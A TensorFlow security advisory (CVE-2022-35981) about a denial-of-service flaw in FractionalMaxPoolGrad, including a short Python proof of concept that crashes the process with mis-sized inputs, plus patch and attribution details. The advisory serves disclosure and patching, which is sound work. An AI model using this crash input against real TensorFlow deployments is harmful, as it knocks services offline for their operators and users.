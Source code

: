 ## TFSA-2022-110: `CHECK` fail in `FractionalMaxPoolGrad`

### CVE Number
CVE-2022-35981

### Impact
`FractionalMaxPoolGrad` validates its inputs with `CHECK` failures instead of with returning errors. If it gets incorrectly sized inputs, the `CHECK` failure can be used to trigger a denial of service attack:
```python
import tensorflow as tf

overlapping = True
orig_input = tf.constant(.453409232, shape=[1,7,13,1], dtype=tf.float32)
orig_output = tf.constant(.453409232, shape=[1,7,13,1], dtype=tf.float32)
out_backprop = tf.constant(.453409232, shape=[1,7,13,1], dtype=tf.float32)
row_pooling_sequence = tf.constant(0, shape=[5], dtype=tf.int64)
col_pooling_sequence = tf.constant(0, shape=[5], dtype=tf.int64)
tf.raw_ops.FractionalMaxPoolGrad(orig_input=orig_input, orig_output=orig_output, out_backprop=out_backprop, row_pooling_sequence=row_pooling_sequence, col_pooling_sequence=col_pooling_sequence, overlapping=overlapping)
```

### Patches
We have patched the issue in GitHub commit [8741e57d163a079db05a7107a7609af70931def4](https://github.com/tensorflow/tensorflow/commit/8741e57d163a079db05a7107a7609af70931def4).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
